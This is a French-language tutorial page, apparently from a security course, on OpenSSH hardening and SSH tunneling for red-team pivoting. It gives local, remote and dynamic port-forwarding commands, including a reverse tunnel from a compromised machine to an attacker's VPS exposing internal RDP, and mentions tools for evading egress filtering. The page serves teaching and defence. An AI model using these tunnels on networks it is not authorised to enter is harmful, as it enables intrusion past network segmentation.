

# OpenSSH — Le Couteau Suisse du Tunneling

<div
  class="omny-meta"
  data-level="🔴 Avancé"
  data-version="9.0+"
  data-time="~1 heure">
</div>

<div style="text-align: center; margin: 0 auto;">
    
</div>

## Introduction

!!! quote "Analogie pédagogique — Le Couloir Secret"
    Imaginez un château fort (votre serveur) où la seule porte d'entrée légitime est très bien gardée. **SSH** est un couloir secret magique et indestructible que vous créez entre votre maison et ce château. Non seulement vous pouvez l'utiliser pour entrer en toute sécurité, mais vous pouvez aussi faire passer d'autres choses par ce couloir secret (du trafic web, des connexions de base de données, etc.) sans que les gardes du château ne sachent ce qui transite.

**OpenSSH** est l'implémentation de référence du protocole SSH (Secure Shell). Historiquement conçu pour remplacer Telnet par un accès terminal chiffré, SSH a évolué pour devenir une véritable plateforme réseau permettant le transfert de fichiers (SFTP/SCP) et, surtout, le **Port Forwarding** (Tunneling).

<br>

---

## 🛠️ Usage Opérationnel — Durcissement (Hardening)

Avant d'utiliser SSH de manière avancée, il est vital de savoir sécuriser un serveur SSH (`sshd`).

```ini title="/etc/ssh/sshd_config — Configuration robuste"
# Changer le port par défaut (atténue le bruit des scanners automatisés)
Port 2222

# Désactiver l'authentification par mot de passe
PasswordAuthentication no
PubkeyAuthentication yes

# Désactiver l'accès direct root (Principe du moindre privilège)
PermitRootLogin no

# Versions et algos modernes
Protocol 2
KexAlgorithms curve25519-sha256@libssh.org
```

<br>

---

## 💀 Red Team & Tunneling : L'Art du Pivoting

Dans un contexte offensif (ou d'administration complexe), SSH est l'outil roi pour contourner la segmentation réseau. Il existe 3 types de tunnels SSH.

### 1. Local Port Forwarding (`-L`)
*Rediriger un port de votre machine LOCALE vers une ressource DISTANTE.*

**Cas d'usage :** Le serveur distant a une base de données MySQL sur le port 3306 (fermée sur l'extérieur). Vous voulez vous y connecter avec votre client local.
```bash title="Créer un tunnel local"
# -N : Ne pas lancer de shell interactif
# -f : Lancer en arrière-plan
ssh -N -f -L 3306:127.0.0.1:3306 user@serveur_distant
```
*Votre machine locale écoute maintenant sur le port 3306, et tout le trafic est renvoyé vers le port 3306 du serveur distant via le tunnel chiffré.*

### 2. Remote Port Forwarding (`-R`)
*Rediriger un port du serveur DISTANT vers une ressource LOCALE (Reverse Tunneling).*

**Cas d'usage :** Vous êtes sur une machine compromise (sans accès entrant) et vous voulez ouvrir un port sur votre VPS attaquant qui redirige vers le RDP interne de la cible.
```bash title="Créer un tunnel inversé"
ssh -N -R 3389:192.168.1.50:3389 attaquant@mon_vps
```
*Sur `mon_vps`, le port 3389 est maintenant ouvert. Si on s'y connecte, on est redirigé vers l'IP interne 192.168.1.50 du réseau compromis.*

!!! warning "GatewayPorts"
    Pour que le Remote Forwarding fonctionne sur toutes les interfaces du VPS (et pas seulement sur `127.0.0.1`), la directive `GatewayPorts yes` doit être activée dans le `sshd_config` du VPS.

### 3. Dynamic Port Forwarding (`-D`)
*Transformer SSH en serveur proxy SOCKS.*

**Cas d'usage :** Vous voulez naviguer sur le réseau interne d'une cible avec votre navigateur web ou Burp Suite en passant par la machine rebond compromise.
```bash title="Créer un proxy dynamique"
ssh -N -D 1080 user@machine_rebond
```
*Votre machine locale écoute sur le port 1080. Si vous configurez Firefox ou Proxychains pour utiliser `127.0.0.1:1080` (SOCKS5), tout votre trafic passera "à travers" la machine rebond.*

<br>

---

## 🏗️ Architecture du Pivoting via Proxychains



<br>

---

## 🥷 Techniques d'Évasion Avancées

- **SSHuttle** : Un outil qui utilise SSH pour créer un VPN transparent sans nécessiter d'accès administrateur (`root`) sur la cible, contrairement à OpenVPN.
- **SSLH** : Un multiplexeur de ports. Permet de faire tourner SSH, HTTPS, et OpenVPN sur le même port 443 (le trafic est identifié à la volée). Indispensable pour contourner l'Egress Filtering rigide.

<br>

---

## Conclusion

!!! quote "Ce qu'il faut retenir"
    Si OpenVPN est l'autoroute du chiffrement, OpenSSH est le chemin de traverse. Sa présence native sur la quasi-totalité des systèmes Unix (et désormais Windows) en fait un vecteur de choix pour l'administration distante comme pour le pivoting post-exploitation (Living off the Land).

!!! tip "Vérifiez vos clés"
    N'utilisez jamais de clés SSH générées sur des machines compromises pour des accès sensibles. Protégez toujours vos clés privées par des passphrases fortes et privilégiez les algorithmes récents comme Ed25519 (`ssh-keygen -t ed25519`).
